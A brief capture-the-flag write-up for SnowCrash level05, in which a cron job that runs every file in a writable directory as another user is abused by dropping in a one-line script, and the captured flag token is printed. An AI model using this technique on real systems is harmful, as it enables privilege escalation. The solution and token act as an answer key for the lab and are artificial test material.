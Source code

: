 ## level05

Upon login received:
You have new mail.

home dir empty

	cat /var/mail/level05

outputs:
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

The syntax is from chrontab and it's saying this is executed every 2 minutes, the command will log into flag05 and execute `sh /usr/sbin/openarenaserver`

	level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done


It appears that every 2 min each file in /opt/openarenaserver will run `bash -x` executing the command

	echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag

after waiting about a minute

	cat /tmp/flag
outputs:
> Check flag.Here is your token : viuaaale9huek52boumoomioc
